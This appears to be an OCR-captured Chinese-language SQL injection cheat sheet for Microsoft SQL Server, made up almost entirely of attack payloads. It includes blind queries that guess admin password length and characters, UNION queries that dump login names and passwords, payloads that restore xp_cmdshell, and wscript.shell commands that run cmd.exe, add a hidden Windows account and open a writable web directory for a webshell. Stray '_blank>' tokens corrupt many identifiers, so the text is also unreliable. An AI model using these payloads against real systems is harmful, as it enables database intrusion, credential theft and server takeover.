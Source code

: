 	and 1=(select count(*) from admin where len(password)>11) 正确
	and 1=(select count(*) from admin where len(password)>12) 错误 长度是12
	and 1=(select count(*) from admin where len(password)=12) 正确
	
	6.猜解字符
	and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位
	and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位
	就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了
	and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) --
	这个查询语句可以猜解中文的用户和_blank>密码.只要把后面的数字换成中文的 ASSIC码就OK.最后把结果再转换成字符.
	
	group by users.id having 1=1--
	group by users.id, users.username, users.password, users.privs having 1=1--
	; insert into users values( 666, attacker, foobar, 0xffff )--
	
	UNION Select TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS Where TABLE_blank>_NAME=logintable-
	UNION Select TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS Where TABLE_blank>_NAME=logintable Where COLUMN_blank>_NAME NOT IN (login_blank>_id)-
	UNION Select TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS Where TABLE_blank>_NAME=logintable Where COLUMN_blank>_NAME NOT IN (login_blank>_id,login_blank>_name)-
	UNION Select TOP 1 login_blank>_name FROM logintable-
	UNION Select TOP 1 password FROM logintable where login_blank>_name=Rahul--
	
	看_blank>服务器打的补丁=出错了打了SP4补丁
	and 1=(select @@VERSION)--
	
	看_blank>数据库连接账号的权限，返回正常，证明是 _blank>服务器角色sysadmin权限。
	and 1=(Select IS_blank>_SRVROLEMEMBER(sysadmin))--
	
	判断连接_blank>数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA）
	and sa=(Select System_blank>_user)--
	and user_blank>_name()=dbo--
	and 0<>(select user_blank>_name()--
	
	看xp_blank>_cmdshell是否删除
	and 1=(Select count(*) FROM master.dbo.sysobjects Where xtype = X AND name = xp_blank>_cmdshell)--
	
	xp_blank>_cmdshell被删除，恢复,支持绝对路径的恢复
	;EXEC master.dbo.sp_blank>_addextendedproc xp_blank>_cmdshell,xplog70.dll--
	;EXEC master.dbo.sp_blank>_addextendedproc xp_blank>_cmdshell,c:\inetpub\wwwroot\xplog70.dll--
	
	反向PING自己实验
	;use master;declare @s int;exec sp_blank>_oacreate "wscript.shell",@s out;exec sp_blank>_oamethod @s,"run",NULL,"cmd.exe /c ping 192.168.0.1";--
	
	加帐号
	;DECLARE @shell INT EXEC SP_blank>_OACreate wscript.shell,@shell OUTPUT EXEC SP_blank>_OAMETHOD @shell,run,null, C:\WINNT\system32\cmd.exe /c net user jiaoniang$ 1866574 /add--
	
	创建一个虚拟目录E盘：
	;declare @o int exec sp_blank>_oacreate wscript.shell, @o out exec sp_blank>_oamethod @o, run, NULL, cscript.exe c：\inetpub\wwwroot\mkwebdir.vbs -w "默认Web站点" -v "e","e：\"--
	
	访问属性：（配合写入一个webshell）
	declare @o int exec sp_blank>_oacreate wscript.shell, @o out exec sp_blank>_oamethod @o, run, NULL, cscript.exe c：\inetpub\wwwroot\chaccess.vbs -a w3svc/1/ROOT/e +browse
	